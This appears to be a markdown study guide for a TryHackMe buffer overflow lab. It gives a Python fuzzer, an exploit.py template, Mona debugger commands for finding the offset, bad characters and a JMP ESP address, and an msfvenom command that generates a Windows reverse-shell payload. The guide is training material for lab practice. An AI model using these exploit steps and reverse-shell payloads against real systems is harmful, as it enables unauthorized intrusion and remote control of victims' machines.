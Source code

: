 # Process for Buffer Overflow
(Original source for this awesome tutorial: **Tib3rius** https://tryhackme.com/room/bufferoverflowprep )

## Summary of the process

- Crash The Application 
	1. fuzz.py (with while loop and without while loop)
	2. fuzz-http.py
- Find EIP 
	1. msf-pattern_create -l xxxx  
	2. msf-pattern_offset -l xxxx -q (xxxxxxxx)
	3. Mona commands
		- !mona config -set workingfolder c:\mona\%p
		- !mona findmsp -distance xxxx
		- !mona modules
- Controlling EIP
	1. return address - BBBB
	2. control-eip.py
- Identify Bad Characters
	1. for exploit.py -> bytearray.sh '\x00'
	2. Mona commands
		- !mona bytearray -b "\x00"
		- !mona compare -f C:\mona\oscp\bytearray.bin -a
- Find JMP ESP - msf-nasm_shell 
	1. nasm > jmp esp - FFE4 
		- !mona find -s "\xff\xe4" -m "modulename"
	3. nasm > jmp eax - FFE0 
		- !mona find -s "\xff\xe0" -m "modulename"
	5. nasm > jmp edx - FFE2 
		- !mona find -s "\xff\xe2" -m "modulename"
- Generate Shell Code
	- msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00\x0a" -f py
- Exploit
	- final-exploit.py

## Detailed process
### connecting to process 
```nc -nv MACHINE_IP 1337```

### setting mona working folder
`!mona config -set workingfolder c:\mona\%p`


### Fuzzing 

`python2 fuzzer.py`
```
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

### Crash Replication & Controlling EIP

`python2 exploit.py`

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


### offset

`msf-pattern_create -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

`python exploit.py`

After crach use following command

`!mona findmsp -distance 600`

Mona should display a `log window` with the output of the command/

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the `retn variable to "BBBB"`.

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).


### Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```!mona bytearray -b "\x00"```

`you can use the following python code as well`
```
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
Update your exploit.py script and set the payload variable to the string of bad chars the script generates.


```!mona compare -f C:\mona\oscp\bytearray.bin -a <address>```

A popup window should appear labelled "mona Memory comparison results". Generate a new bytearray in mona, specifying these new badchars along with \x00.

Example as below
```!mona bytearray -b "\x00\x07\xa0"```


### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with **all the badchars** you identified (including \x00):

```!mona jmp -r esp -cpb "\x00"```

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.


### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with **all the badchars** you identified (including \x00):

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v payload```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

**remove the preceding "b" in the var**

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```padding = "\x90" * 16```

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
